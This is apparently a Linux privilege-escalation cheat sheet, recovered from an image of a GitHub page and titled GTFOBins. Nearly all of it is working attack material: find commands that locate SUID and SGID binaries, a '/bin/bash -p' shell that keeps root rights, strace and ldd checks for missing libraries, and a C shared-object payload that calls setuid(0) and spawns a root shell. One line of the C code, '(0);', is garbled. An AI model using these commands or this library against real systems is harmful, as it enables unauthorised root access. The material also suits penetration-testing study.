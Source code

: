 #GTFOBins
Finding SUID
```bash
find / -perm  -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
Finding SGID
```bash
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```
Executing an SUID bash shell
```bash
/bin/bash -p
```
### Shared Object Injection 
Non-existent libraries
```bash
strace <SUID_BINARY> 2>&1 | grep "open|access|no such file"
```
All libraries required by binary
```bash
ldd <SUID_BINARY>
```
Malicious library payload
```C
#include <stdio.h> 
#include <stdlib.h> 

static void inject()__attribute__((constructor)); 

void inject() { 
	setuid(0); 
	(0);
	system("/bin/bash -p");
}
```